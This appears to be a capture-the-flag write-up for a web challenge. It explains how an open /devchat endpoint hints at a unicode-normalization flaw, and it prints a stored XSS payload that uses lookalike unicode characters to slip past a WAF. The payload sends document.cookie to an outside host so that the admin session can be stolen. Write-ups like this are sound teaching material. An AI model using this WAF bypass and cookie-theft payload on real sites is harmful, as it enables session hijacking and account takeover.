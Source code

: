 # Writeup

Checking the login page reveals a link to /dev which contains a simple message saying that the dev portal is under development and to checkout /devchat if you developer access has already been provisioned.
However, going to /devchat just works because of poor restrictions on the endpoint.

There is a very interesting message sent by john and wick in the devchat hinting at unicode normalization and using html escapes on the profile page.

![Devchat](./devchat.png)

Using this information and editing the profile page with regular xss payloads should not work as there is a waf running on the backend checking for any bad characters.

However, after replacing a few of the characters with unicode characters and attempting to change the username works as the data is being normalized after being passed into the waf.

Using a payload like this to make a request to a request catcher:

```
﹤ˢcrⁱpt﹥fetch("http://blah/?c="+document.cookie)﹤/ˢcrⁱpt﹥
```

We can leak an admin cookie which can be then used to log into the admin portal which was mentioned on the /dev page.